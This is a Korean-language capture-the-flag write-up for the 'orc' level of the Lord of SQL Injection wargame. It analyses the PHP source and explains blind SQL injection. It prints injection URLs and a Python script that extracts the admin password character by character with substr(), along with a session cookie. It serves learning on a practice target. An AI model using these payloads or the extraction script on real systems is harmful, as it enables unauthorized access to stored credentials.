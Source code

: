 # Lord of SQL Injection No.4 - orc

## 문제 출제 의도

기본적인 Blind SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

orc 문제의 php 소스 코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello admin" 이라는 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

## addslashes
```php
string addslashes ( string $str )
```
* addslashes 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.

* 따라서 `addslashes($_GET[pw])` 는 `$_GET[id]`에서 문자열 `홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)`를 찾아 백슬래시를 앞에 붙인 문자열을 반환한다.

* php의 addslashes 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

-----

## Blind SQL Injection

4번 orc 문제같은 경우 실제 pw값을 알아내야 한다. 이때 화면에 Hello admin이라는 문자열이 출력되었는지 안 되었는지 여부에 따라 조작한 SQL문의 조건절이 참인지 거짓인지 알아낼 수 있다.

이처럼 SQL Injection이 가능하고 조작한 SQL문의 조건절이 참인지 거짓인지를 구분할 수 있는 경우 원하는 데이터를 하나씩 알아낼 수 있는데, 이를 Blind SQL Injection 이라고 한다.

-----

## Solution

1. SUBSTR 함수 활용

    ```
    http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=' or id='admin' and length(pw)=8-- -
    ```
    ```sql
    select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)=8-- -'
    ```

    이는 "Hello admin"을 출력하게 만든다. 즉, pw는 8자리임을 알아낸 것이다.

    이와 비슷한 방법으로 쿼리를 조작하면 pw 역시 전부 알아낼 수 있다.

    하지만 이를 반복하여 8자리를 모두 알아내는 것은 사람이 하기 버거우므로 python 코드를 작성하여 풀면 편하다.
    
    ```python
    import urllib.request # python3의 내장 라이브러리인 urllib의 request 모듈을 사용할 수 있도록 이 코드에 불러온다.
    from urllib.parse import quote # python3의 내장 라이브러리인 urllib의 parse 모듈에 들어있는 quote 함수를 사용할 수 있도록 이 코드에 불러온다.

    key = "" # pw값을 저장할 문자열 변수
    for i in range(1, 9): # 8자리임을 알아냈으므로 i에는 1부터 8까지 들어가도록 반복문을 구성
        for j in range(32, 127): # ASCII Code에서 화면에 출력 가능한 문자의 10진수 범위는 32부터 126까지이다.
            url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=" # 공격할 URL에서 변하지 않는 부분이다.
            data = "' or id='admin' and substr(pw, 1, {})='{}'#".format(
                str(i), key + chr(j)) # 반복문을 진행하며 계속 다른 문자가 들어갈 문자열이다.
            print(data) # 반복문이 한 번 돌 때마다 URL을 출력하도록 한다.
            data = quote(data) # URL Encoding을 해 준다.
            re = urllib.request.Request(url + data) # 1행에서 불러온 request 모듈의 Request 클래스를 통해 Request 객체를 만든다.

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36") # re 객체의 header에 User-agent를 추가한다. User-agent가 없으면 403 Forbidden 오류가 난다. 
            re.add_header(
                "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
            ) # re 객체의 header에 Cookie로 본인이 로그인한 클라이언트의 PHPSESSID를 추가한다. 이것이 없으면 페이지가 login_chk()에 걸려 그 다음 처리를 하지 않고 <script>location.href='./';</script> 만 응답한다.

            req = urllib.request.urlopen(re) # 객체를 이용해 요청을 보낸다.

            if str(req.read()).find("Hello admin") != -1: # 응답에서 "Hello admin"이라는 문자열을 찾은 경우. find()는 찾으면 시작 인덱스를, 못 찾으면 -1을 반환하는 함수이다.
                key += chr(j).lower() # key 변수 뒤에 ASCII Code로 j값에 해당하는 문자를 붙인다.
                print(key) # key를 출력한다.
                break # i번째 위치의 문자를 찾았으므로 반복문을 탈출한다.
    print(key) # 반복문이 끝나면 최종적으로 찾아낸 8글자 key를 출력한다.
    ```

    이러한 코드를 실행하면 결과값으로 295d5844 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844
    ```